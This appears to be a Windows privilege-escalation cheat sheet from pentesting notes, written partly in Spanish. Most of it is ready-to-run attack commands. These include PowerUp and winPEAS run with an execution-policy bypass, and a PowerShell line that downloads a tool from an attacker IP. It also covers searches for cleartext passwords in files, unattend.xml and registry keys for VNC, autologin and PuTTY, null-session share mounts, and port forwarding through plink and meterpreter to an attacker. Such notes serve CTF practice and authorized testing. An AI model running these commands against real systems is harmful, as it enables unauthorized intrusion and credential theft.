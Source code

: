 # Automatic tools
## From file
```
c:> powershell.exe -nop -exec bypass
PS C:> ./PowerUp.ps1
PS C:> Invoke-AllChecks
```
## From url
```
c:> powershell.exe -nop -exec bypass
PS c:> Import-MOdule ./PowerUp.ps1
PS c:> Invoke-AllChecks
```
# 2. Winpeas
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.14.6/winPEAS64.exe','C:\users\Administrator\Documents\wp.exe')"

c:\users\kosts\Desktop> .\wp.exe
```


# Manual info gathering
## Operating System
```
system info
wmic qfe
```
# Environment variables
```
set
Get-ChildItem Env: | ft Key,Value
```
# Drives
```
net use
wmic logicaldisk get caption, description, providername
wmic logicaldisk get name
wmic logicaldisk get caption
diskpart
list volume
```
```
Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root

get-psdrive -psprovider filesystem
```
# Mount/map
```
net use \\IP address\IPC$ "" /u:""
net use \\192.168.1.101\IPC$ "" /u:""
```
# Users
## Whoami
```
whoami /priv
echo %USERNAME%
$env:UserName
```
# Clear text passwords
## Search for them 
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```
## In Files
These are common files to find them in. They might be base64-encoded. So look out for that.
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```
## In registry
```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
## Service only avaible from inside
A veces, hay servicios a los que solo se puede acceder desde dentro de la red. Por ejemplo, es posible que no se pueda acceder a un servidor MySQL desde el exterior, por razones de seguridad. También es común tener diferentes aplicaciones de administración a las que solo se puede acceder desde dentro de la red/máquina. Como una interfaz de impresora, o algo así. Estos servicios pueden ser más vulnerables ya que no deben verse desde el exterior.
```
netstat -ano
```
Ejemplo de salida:
```
Proto  Local address      Remote address     State        User  Inode  PID/Program name
    -----  -------------      --------------     -----        ----  -----  ----------------
    tcp    0.0.0.0:21         0.0.0.0:*          LISTEN       0     0      -
    tcp    0.0.0.0:5900       0.0.0.0:*          LISTEN       0     0      -
    tcp    0.0.0.0:6532       0.0.0.0:*          LISTEN       0     0      -
    tcp    192.168.1.9:139    0.0.0.0:*          LISTEN       0     0      -
    tcp    192.168.1.9:139    192.168.1.9:32874  TIME_WAIT    0     0      -
    tcp    192.168.1.9:445    192.168.1.9:40648  ESTABLISHED  0     0      -
    tcp    192.168.1.9:1166   192.168.1.9:139    TIME_WAIT    0     0      -
    tcp    192.168.1.9:27900  0.0.0.0:*          LISTEN       0     0      -
    tcp    127.0.0.1:445      127.0.0.1:1159     ESTABLISHED  0     0      -
    tcp    127.0.0.1:27900    0.0.0.0:*          LISTEN       0     0      -
    udp    0.0.0.0:135        0.0.0.0:*                       0     0      -
    udp    192.168.1.9:500    0.0.0.0:*                       0     0      -
```
Busque LISTEN/LISTEN. Compare eso con el escaneo que hizo desde el exterior.
¿Contiene algún puerto que no sea accesible desde el exterior?

Si ese es el caso, tal vez puedas hacer un reenvío remoto para acceder a él. 
```
# Reenvío de puerto utilizando plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

#Reenvío de puerto utilixando meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```
Entonces, ¿cómo de debería de interpretar la salida del netstat?
**Dirección local 0.0.0.0**

La dirección local 0.0.0.0 significa que el servicio está escuchando en todas las interfaces. Esto significa que puede recibir una conexión desde la tarjeta de red, desde la interfaz loopback o cualquier otra interfaz. Esto significa que cualquiera puede conectarse a él.

**Dirección local 127.0.0.1**

La dirección local 127.0.0.1 significa que el servicio solo está escuchando la conexión desde su PC. No de Internet ni de ningún otro lugar. ¡Esto es interesante para nosotros!

**Dirección local 192.168.1.9**

La dirección local 192.168.1.9 significa que el servicio solo escucha las conexiones de la red local. Entonces, alguien de la red local puede conectarse, pero no alguien de Internet. ¡Esto también es interesante para nosotros! 

